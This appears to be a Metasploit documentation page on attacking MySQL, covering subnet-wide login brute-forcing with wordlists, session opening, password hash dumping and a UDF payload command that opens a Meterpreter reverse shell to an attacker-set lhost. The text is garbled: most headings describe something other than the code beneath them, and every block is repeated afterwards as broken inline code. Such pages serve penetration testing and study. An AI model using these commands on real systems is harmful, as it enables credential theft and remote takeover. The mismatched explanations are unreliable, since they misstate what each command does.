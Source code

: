 ## MySQL
There are more modules than listed here, for the full list of modules run the `search` command within msfconsole:
```msf
msf6 > search mysql
```

Or to search for modules that work with a specific session type:
```msf
msf6 > search session_type:mysql
```

### Lab Environment
When testing in a lab environment MySQL can either be installed on the host machine or within Docker:
```
use auxiliary/scanner/mysql/mysql_version
run mysql://127.0.0.1
```

### MySQL Enumeration
Enumerate version:
```
use auxiliary/scanner/mysql/mysql_login
run 'mysql://root: a b c p4$$w0rd@127.0.0.1'
```

### MySQL Login / Bruteforce
If you have MySQL credentials to validate:
```
use auxiliary/scanner/mysql/mysql_login
run cidr:/24:mysql://user:pass@192.168.222.0 threads=50
```

Re-using MySQL credentials in a subnet:
```
use auxiliary/scanner/mysql/mysql_login
run mysql://user:pass@192.168.123.6:2222
```

Using an alternative port:
```
use auxiliary/scanner/mysql/mysql_login
run mysql://known_user@192.168.222.1 threads=50 pass_file=./wordlist.txt
```

Brute-force host with known user and password list:
```
use auxiliary/scanner/mysql/mysql_login
run mysql://192.168.222.1 threads=50 user_file=./users.txt pass_file=./wordlist.txt
```

Brute-force credentials:
```
use auxiliary/scanner/mysql/mysql_login
run cidr:/24:mysql://user:pass@192.168.222.0 threads=50
run cidr:/24:mysql://user@192.168.222.0 threads=50 pass_file=./wordlist.txt
```

Brute-force credentials in a subnet:
```msf
msf6 > use scanner/mysql/mysql_login 
msf6 auxiliary(scanner/mysql/mysql_login) > run rhost=127.0.0.1 rport=4306 username=root password=password createsession=true

[+] 127.0.0.1:4306        - 127.0.0.1:4306 - Found remote MySQL version 11.2.2
[+] 127.0.0.1:4306        - 127.0.0.1:4306 - Success: 'root:password'
[*] MySQL session 1 opened (127.0.0.1:53241 -> 127.0.0.1:4306) at 2024-03-12 12:40:46 -0500
[*] 127.0.0.1:4306        - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/mysql/mysql_login) > sessions -i -1
[*] Starting interaction with 1...

mysql @ 127.0.0.1:4306 >
```

### Obtaining an Interactive Session on the Target
set to true should give you an interactive session:
```msf
msf6 auxiliary(scanner/mysql/mysql_login) > sessions

Active sessions
===============

  Id  Name  Type   Information                      Connection
  --  ----  ----   -----------                      ----------
  2         mssql  MSSQL test @ 192.168.2.242:1433  192.168.2.1:61428 -> 192.168.2.242:1433 (192.168.2.242)
  3         mysql  MySQL root @ 127.0.0.1:4306      127.0.0.1:61450 -> 127.0.0.1:4306 (127.0.0.1)

msf6 auxiliary(scanner/mysql/mysql_login) > sessions -i 3
[*] Starting interaction with 3...
```

You can also use `help` to get more information about how to use your session.
```
use auxiliary/scanner/mysql/mysql_hashdump
run 'mysql://root: a b c p4$$w0rd@127.0.0.1'
```

When interacting with a session, the help command can be useful:
```
use auxiliary/scanner/mysql/mysql_schemadump
run 'mysql://root: a b c p4$$w0rd@127.0.0.1'
```

Once you've done that, you can run any MySQL query against the target using the `query` command:
```
use admin/mysql/mysql_sql
run 'mysql://root: a b c p4$$w0rd@127.0.0.1' sql='select version()'
```

Alternatively you can enter a SQL prompt via the `query_interactive` command which supports multiline commands:
```
use multi/mysql/mysql_udf_payload
run 'mysql://root: a b c p4$$w0rd@127.0.0.1' lhost=192.168.123.1 target=Linux payload=linux/x86/meterpreter/reverse_tcp
```

`msf
msf6 > search mysql
`

`msf
msf6 > search session_type:mysql
`

`
use auxiliary/scanner/mysql/mysql_version
run mysql://127.0.0.1
`

`
use auxiliary/scanner/mysql/mysql_login
run 'mysql://root: a b c p4$$w0rd@127.0.0.1'
`

`
use auxiliary/scanner/mysql/mysql_login
run cidr:/24:mysql://user:pass@192.168.222.0 threads=50
`

`
use auxiliary/scanner/mysql/mysql_login
run mysql://user:pass@192.168.123.6:2222
`

`
use auxiliary/scanner/mysql/mysql_login
run mysql://known_user@192.168.222.1 threads=50 pass_file=./wordlist.txt
`

`
use auxiliary/scanner/mysql/mysql_login
run mysql://192.168.222.1 threads=50 user_file=./users.txt pass_file=./wordlist.txt
`

`
use auxiliary/scanner/mysql/mysql_login
run cidr:/24:mysql://user:pass@192.168.222.0 threads=50
run cidr:/24:mysql://user@192.168.222.0 threads=50 pass_file=./wordlist.txt
`

`msf
msf6 > use scanner/mysql/mysql_login 
msf6 auxiliary(scanner/mysql/mysql_login) > run rhost=127.0.0.1 rport=4306 username=root password=password createsession=true

[+] 127.0.0.1:4306        - 127.0.0.1:4306 - Found remote MySQL version 11.2.2
[+] 127.0.0.1:4306        - 127.0.0.1:4306 - Success: 'root:password'
[*] MySQL session 1 opened (127.0.0.1:53241 -> 127.0.0.1:4306) at 2024-03-12 12:40:46 -0500
[*] 127.0.0.1:4306        - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/mysql/mysql_login) > sessions -i -1
[*] Starting interaction with 1...

mysql @ 127.0.0.1:4306 >
`

`msf
msf6 auxiliary(scanner/mysql/mysql_login) > sessions

Active sessions
===============

  Id  Name  Type   Information                      Connection
  --  ----  ----   -----------                      ----------
  2         mssql  MSSQL test @ 192.168.2.242:1433  192.168.2.1:61428 -> 192.168.2.242:1433 (192.168.2.242)
  3         mysql  MySQL root @ 127.0.0.1:4306      127.0.0.1:61450 -> 127.0.0.1:4306 (127.0.0.1)

msf6 auxiliary(scanner/mysql/mysql_login) > sessions -i 3
[*] Starting interaction with 3...
`

`
use auxiliary/scanner/mysql/mysql_hashdump
run 'mysql://root: a b c p4$$w0rd@127.0.0.1'
`

`
use auxiliary/scanner/mysql/mysql_schemadump
run 'mysql://root: a b c p4$$w0rd@127.0.0.1'
`

`
use admin/mysql/mysql_sql
run 'mysql://root: a b c p4$$w0rd@127.0.0.1' sql='select version()'
`

`
use multi/mysql/mysql_udf_payload
run 'mysql://root: a b c p4$$w0rd@127.0.0.1' lhost=192.168.123.1 target=Linux payload=linux/x86/meterpreter/reverse_tcp
`

